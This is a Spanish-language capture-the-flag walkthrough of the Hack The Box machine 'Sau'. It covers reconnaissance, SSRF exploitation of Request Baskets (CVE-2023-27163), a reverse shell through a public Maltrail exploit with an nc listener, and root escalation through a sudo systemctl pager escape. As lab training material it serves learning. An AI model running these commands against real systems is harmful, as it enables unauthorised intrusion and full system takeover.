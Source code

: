 ```yaml
---
description: '✍️ Autor: mrh4sh 🔍 Dificultad: Fácil 📅 Fecha de creación: 30/06/2018'
---
```


# Sau

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.224
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190333.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.224
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190507.png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH)**: El servicio SSH está en ejecución con la versión 8.2p1 de OpenSSH en un sistema Ubuntu. Esta versión es relativamente moderna y es probable que esté actualizada, pero aún es importante revisar posibles vulnerabilidades específicas de esta versión, como debilidades en la configuración del servicio o ataques de fuerza bruta si no se utiliza autenticación de clave pública. El escaneo de las claves del host muestra RSA, ECDSA y ED25519, lo que sugiere que se están utilizando claves modernas, lo que es una buena práctica.
* **Puerto 80 (HTTP)**: El puerto 80 está filtrado, lo que significa que no hay respuesta directa en este puerto desde el escaneo. Podría haber un firewall o una configuración de seguridad que bloquea el tráfico en este puerto, o simplemente podría no estar activo.
* **Puerto 55555 (HTTP)**: Este puerto está abierto y ejecuta un servidor HTTP construido con Golang, como indica la descripción. El título de la página es "Request Baskets" y la solicitud fue redirigida a `/web`, lo que indica que la aplicación web probablemente tenga rutas configuradas para manejar diferentes solicitudes.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,55555 -v 10.10.11.224
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Reviso el puerto 55555.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Mirando la página nos sale la versión por lo que buscamos si tiene un CVE para explotar.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Al realizar una búsqueda en Google, se puede identificar que esta versión es vulnerable a una falla de SSRF (Server Side Request Forgery), CVE-2023-27163, que afecta al componente de la API de Request Baskets, específicamente en el endpoint `/api/baskets/{name}`. Esta vulnerabilidad permite a los atacantes realizar solicitudes manipuladas a la API, lo que les da acceso a recursos internos de la red e información sensible.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Enviamos la petición como se nos indica.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Dado que esta versión es vulnerable a SSRF y que el puerto 80 estaba filtrado, lo que nos impedía acceder a él desde el exterior, modificaremos la configuración para redirigir las solicitudes GET hacia el propio localhost del servidor, específicamente al puerto 80. De esta forma, conseguiremos establecer una conexión con los recursos internos del servidor.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Recargamos de nuevo.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Miramos si la versión de **Maltrail** tiene alguna vulnerabilidad por internet.

{% @github-files/github-code-block url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

Ejecutamos mientras nos ponemos en escucha.

```bash
python3 exploit.py 10.10.14.14 4444 http://10.10.11.224:55555/6ywt1xx/
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/" %}

```bash
sudo /usr/bin/systemctl status trail.service
!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 195946.png" alt=""><figcaption></figcaption></figure>
